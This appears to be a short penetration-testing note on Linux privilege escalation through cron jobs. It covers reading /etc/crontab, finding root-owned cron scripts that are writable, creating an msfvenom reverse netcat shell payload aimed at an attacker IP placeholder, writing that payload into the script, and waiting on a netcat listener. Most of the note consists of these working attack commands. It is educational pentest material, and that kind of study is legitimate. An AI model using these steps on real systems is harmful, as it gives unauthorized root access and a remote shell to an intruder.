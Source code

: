```yaml
---
tags:
  - Penetration-Testing
  - cron
  - PrivEsc
---
```

## Viewing Crontab Manually
```bash
cat /etc/crontab
```
**Automated Scripts (LinEnum/LinPeass) may not locate all cron tasks**

## Exploitation
- **Look for jobs that are owned by root and are writeable**
	- **Jobs will execute with root privileges**

- **Craft msfvenom payload**
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attack IP> lport=<listener port> R
```

- **Write payload into script**
```bash
echo [MSFVENOM OUTPUT] > script_file
```

- **Set netcat listener and wait for script to execute**
```bash
nc -lvnp <listener_port>
```